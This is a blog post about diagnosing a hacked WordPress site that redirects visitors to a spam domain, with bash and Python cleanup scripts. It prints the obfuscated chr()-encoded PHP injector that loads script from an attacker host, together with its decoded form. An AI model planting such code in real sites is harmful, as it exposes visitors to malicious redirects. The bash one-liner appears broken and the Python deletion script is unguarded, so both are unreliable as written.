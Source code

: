 ```yaml
---
title: Wordpress site hacked and redirects to spam site?
date: "2021-03-26"
description: "My Wordpress site hosted on Bluehost got hacked and now all my sites are redirecting to a spam site."
---
```


## Problem: Wordpress Site Hacked and Now Redirects to Spam Site

I have a number of sites hosted on a Bluehost account, and, suddenly, they were all redirecting users to some spam site. Both the subdirectories and my root site seemed to be hit.

## Steps to Fix the Problem

1. We tried working with Bluehost. They seemed to fix the problem on their end by deactivating all plugins. However, this obviously broke all of our sites (including client sites!). 
2. We began to reactivate plugins one by one on a particular site that we own, to troubleshoot what was causing the problem. As a couple of plugins were reactivated (Thrive Optimize in particular), the spammy redirection suddenly resumed specifically onthe `/wp-admin/` route. This meant we couldn't even undo the accidental activation!
3. We then downloaded our site directory from the `public_html` folder (this was a sub-directory site) to explore what the problem could be.
   1. We first searched for the URL that the user was being redirected to (`https://tron.talkingaboutfirms.ga`), but this turned up nothing, as expected.
   2. Then we inspected a number of files that a user might land on while navigating to the site initially, including an `index.php` file, which said:

```php
<?php
echo chr(60).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(32).chr(115).chr(114).chr(99).chr(61).chr(39).chr(104).chr(116).chr(116).chr(112).chr(115).chr(58).chr(47).chr(47).chr(116).chr(114).chr(111).chr(110).chr(46).chr(116).chr(97).chr(108).chr(107).chr(105).chr(110).chr(103).chr(97).chr(98).chr(111).chr(117).chr(116).chr(102).chr(105).chr(114).chr(109).chr(115).chr(46).chr(103).chr(97).chr(47).chr(109).chr(97).chr(105).chr(110).chr(46).chr(106).chr(115).chr(63).chr(115).chr(61).chr(53).chr(53).chr(51).chr(38).chr(98).chr(61).chr(50).chr(38).chr(99).chr(105).chr(100).chr(61).chr(49).chr(49).chr(49).chr(52).chr(49).chr(39).chr(32).chr(116).chr(121).chr(112).chr(101).chr(61).chr(39).chr(116).chr(101).chr(120).chr(116).chr(47).chr(106).chr(97).chr(118).chr(97).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(39).chr(62).chr(60).chr(47).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(62);die();
?>
```

The PHP function `chr()` is a character encoding. When this file’s contents are decoded (i.e. the script is executed), the resulting string is:

```html
<script src='https://tron.talkingaboutfirms.ga/main.js?s=553&b=2&cid=11141' type='text/javascript'></script>
```

Found it.

The problem is pretty clear. Why is my Wordpress site redirecting to a spam site? **This particular hack involved uploading a malicious index.php to every directory it could access, and so any folder you would access would in theory redirect you to the spammy site.**

## Fix it with Bash

To mass delete these index files in bash, use this hand bash script (credit: [Martin Beckett](https://stackoverflow.com/questions/4529134/delete-files-with-string-found-in-file-linux-cli))

```bash
find . | xargs grep -l echo chr(60).chr(115).chr(99) | awk '{print "rm "${1}}' > doit.sh
```

*Note: we didn't have complete success with this script in zshell (on Macs these days).*

## Fix it with Python

To use this python script, navigate to the directory you want to clean up, (on Mac type `cd ` with a space and then drag in the folder you want to clean up from Finder). Then open Python by typing `python`. Then paste in this script:

```python
import os
for subdir, dirs, files in os.walk(os.getcwd()): # Note: operates within the current wording directory (cwd) and all subdirectories/files
    for filename in files:
        filepath = subdir + os.sep + filename

        with open(filepath) as currentOpenFile:
            try:
                for line in currentOpenFile:
                
                    if 'echo chr(60).chr(115)' in line: # Check if any line in a file contains this string, which is the beginning of the hacked index.php file content
                        os.remove(filepath)
                        print('Removed: {0}'.format(filepath))
            except:
                print('failed on {0}'.format(filepath))
```

## Possible Cause: Thrive Themes Plugins?

As a side-note, this particular vulnerability may be related to a Thrive Themes unused-Zapier-API-key exploit. See [source](https://rootdaemon.com/2021/03/25/hackers-start-exploiting-recent-vulnerabilities-in-thrive-theme-wordpress-plugins/).